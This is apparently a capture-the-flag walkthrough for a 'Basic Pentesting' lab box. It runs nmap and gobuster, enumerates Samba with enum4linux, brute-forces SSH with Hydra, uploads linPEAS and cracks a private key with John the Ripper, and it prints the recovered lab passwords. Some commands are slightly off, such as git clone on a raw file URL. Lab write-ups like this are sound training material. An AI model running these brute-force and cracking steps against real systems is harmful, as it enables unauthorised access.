 # Basic Pentesting : web app testing and privEsc

## nmap

`nmap -sC -sV -o N nmap/initial $ip`

### Open Ports

```
22 (ssh)
80 (website)
139
445 (samba)
```

## gobuster - port 80

`curl -o big.txt https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/big.txt`

`gobuster dir -u http://$ip big.txt`


## username and password bruteforcing

There is an old **samba** service, which is vulnerable. Let's enum it.

```
apt-get install enum4linux
enum4linux/enum4linux.pl -a $ip | tee enum4linux.log
```

We find two usernames, `jan` and `key`. We know by the comments on the website that __jan__'s password is weak. Let's use **Hydra**.

```
hydra -l $username -P /usr/share/wordlists/rockyou.txt ssh://$ip
```

## SSH into the machine

Credentials : `jan:armando`

## privEsv via LinPeas

```
git clone https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
scp linpeas.sh $username@$ip:/dev/shm
```

We find a private ssh key for __kay__ user !

but password-encoded, so we use __John The Ripper__, and find the password `beeswax` for the ssh connection.

Now we can ssh through it : `ssh -i privatekey_rsa kay@$ip` `password:beeswax`.

And we find the final answer into the `pass.bak` file : `hereisareallystrongpasswordthatfollowsthepasswordpolicy$$`
